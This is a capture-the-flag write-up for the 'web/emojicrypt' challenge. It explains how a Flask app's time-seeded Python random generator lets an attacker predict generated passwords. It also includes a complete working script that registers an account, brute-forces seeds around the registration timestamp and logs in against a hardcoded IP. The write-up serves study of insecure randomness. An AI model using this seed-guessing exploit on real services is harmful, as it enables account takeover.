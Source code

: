 
# Writeup for `web/emojicrypt`, Hacking Time and Randomization

## Vulnerability Overview

`web/emojicrypt` Uses `random.choice(NUMBERS)  for  _  in  range(32)` with the default seed. Normally, in python3, the default seed is the current Unix timestamp. (See https://www.unixtimestamp.com/ for more explanation on the Unix Timestamp format.) Because of this, we can simply find out the timestamp by going from 50 seeds before the timestamp to 50 seeds after, allowing us to find out the password.

## Application Architecture

The application consists of:
1. A web frontend that allows users to login and register
2. A random password generator via `random_password  =  ''.join(random.choice(NUMBERS)  for  _  in  range(32))`
3. A simple database accessed by `DATABASE  =  'users.db'` and `cursor.execute("SELECT salt, password_hash FROM users WHERE username = ?",  (username,))` 

## Vulnerability Details

The vulnerability exists in the `register()` function, specifically in line 46:

```python
random_password  =  ''.join(random.choice(NUMBERS)  for  _  in  range(32))
```

Looking at the definition of python's `random.seed()` function, it states that:
` None or no argument seeds from current time or from an operating
        system specific randomness source if available.
`
Which means that since the server is running on Linux, we can assume that the seed is derived from the Unix Time-stamp. which means that we can potentially get the seed just by looking at the time.

## Exploit Chain
To demonstrate this part of the writeup, we will pretend that english is code.
1. First, Register an account:
```

unique_suffix  =  randnum(1000,9999)
Username = "Wehacking" + unique_suffix	
Email  =  "exploit_(unique_suffix)@example.com"
timebeforeregister = gettimebeforeregister
startsession
payload = {'username' : Username, 'email' : Email}
post(payload)
if respcode is 200:
	print its working!!
```
	


2. Do the following:
   - have a variable thats `timebeforegister` + 1 and `timebeforegister` - 50
   - Then loop thru each of these numbers generating an instance of that seed (like `1744021834`,`1744021835`,`1744021836` and so on.
   - Generate a password with each seed
   - Try each password until you get the correct password.

## Root Cause Analysis


1. **Poor Time-Based Attack Mitigation**: The application relies on time-based values (the Unix timestamp) to seed the random generator. This is insecure because an attacker can brute-force possible seeds within a range of Unix timestamps, giving them a manageable set of seeds to test.
2. **Lack of Rate-Limiting or Delays**: The application is vulnerable to brute-force attacks by allowing to repeatedly try passwords within a small window without rate-limiting or delays between attempts. Because of this, the attacker can try a large number of passwords in a short amount of time, reducing the effort needed to guess the correct password.

## Automation Code
```py 
import requests
import random
import time
import sys

# --- Configuration ---
# <<< CHANGE MADE HERE >>>
BASE_URL = "http://52.188.82.43:8060"
# <<< END CHANGE >>> 

REGISTER_URL = f"{BASE_URL}/register"
LOGIN_URL = f"{BASE_URL}/login"


unique_suffix = str(random.randint(1000, 9999)) # Add randomness 
USERNAME = f"exploit_user_{unique_suffix}"
EMAIL = f"exploit_{unique_suffix}@example.com"

# Constants from the Flask app (ensure these match the target server)
EMOJIS = ['🌀', '🌁', '🌂', '🌐', '🌱', '🍀', '🍁', '🍂', '🍄', '🍅', '🎁', '🎒', '🎓', '🎵', '😀', '😁', '😂', '😕', '😶', '😩', '😗']
NUMBERS = '0123456789'
 
# How many seconds around the registration time to check for seeds
SEED_SEARCH_RANGE_SECONDS = 50 # Increased slightly for potential network delay/clock skew

# --- Exploit Logic ---

print(f"Targeting server: {BASE_URL}")
print(f"Attempting to register user: {USERNAME} / {EMAIL}")

# Get time just before registration
start_time = time.time()
registration_timestamp_guess = int(start_time)

try:
    # Use a session to handle cookies if necessary
    session = requests.Session()

    register_payload = {
        'username': USERNAME,
        'email': EMAIL
    }
    # Attempt registration
    reg_response = session.post(REGISTER_URL, data=register_payload, timeout=15) # Increased timeout
    print(f"Registration attempt status: {reg_response.status_code}")

    # Check if registration seemed successful (redirect expected, or 400 if user exists)
    if reg_response.status_code == 200:
        print("Registration successful.")
    elif reg_response.status_code == 400:
        print("Registration failed (status 400) - User likely already exists. Trying to log in anyway.")

    else:
         print(f"Warning: Unexpected registration status code: {reg_response.status_code}")
         print(f"Response text: {reg_response.text}")
         # Continue anyway, maybe it still worked enough

except requests.exceptions.RequestException as e:
    print(f"Error during registration: {e}")
    sys.exit(1)

print(f"Registration attempt finished. Estimated timestamp: {registration_timestamp_guess}")
print(f"Searching seeds from {registration_timestamp_guess - SEED_SEARCH_RANGE_SECONDS} to {registration_timestamp_guess + SEED_SEARCH_RANGE_SECONDS}")

found_flag = False
# Iterate through potential seeds (timestamps around registration time)
for seed_offset in range(-SEED_SEARCH_RANGE_SECONDS, SEED_SEARCH_RANGE_SECONDS + 1):
    current_seed = registration_timestamp_guess + seed_offset
    
    print(f"[*] Trying seed: {current_seed}...")
    

    # Seed the local random generator
    random.seed(current_seed)

    # --- Simulate server's random generation ---
    # 1. Simulate salt generation (advance the PRNG state 12 times)
    _ = random.choices(EMOJIS, k=12)

    # 2. Simulate password generation (next 32 random choices)
    predicted_password = ''.join(random.choice(NUMBERS) for _ in range(32))

    # --- Attempt Login ---
    login_payload = {
        'username': USERNAME,
        'password': predicted_password
    }

    try:
     
        login_response = session.post(LOGIN_URL, data=login_payload, allow_redirects=False, timeout=10)

        if login_response.status_code == 200:
            # Print a newline to clear the "... trying seed" line
            print("\n" + "="*20)
            print(f"[+] SUCCESS! Found correct password with seed: {current_seed}")
            print(f"[+] Used Username: {USERNAME}")
            print(f"[+] Predicted Password: {predicted_password}")
            print(f"[+] Flag/Response:")
            # Try to decode if bytes, otherwise print text
            try:
                print(login_response.content.decode('utf-8'))
            except UnicodeDecodeError:
                print(login_response.content) 
            print("="*20 + "\n")
            found_flag = True
            break 

    except requests.exceptions.Timeout:
       
        print(f"[!] Timeout during login attempt with seed {current_seed}. Trying next...", ' '*20, end='\r')
        sys.stdout.flush()
        # Continue to the next seed
    except requests.exceptions.RequestException as e:
        # Print a newline to clear the "... trying seed" line
        print("\n")
        print(f"[!] Error during login attempt with seed {current_seed}: {e}")
        # Potentially add a small delay before continuing if errors persist
        time.sleep(0.5)
        # Continue to the next seed

# Clear the "Trying seed..." line if loop finishes without success
print(" " * 80, end='\r')

if not found_flag:
    print("\n[-] Exploit failed. Could not find the correct password within the seed range.")
    
```
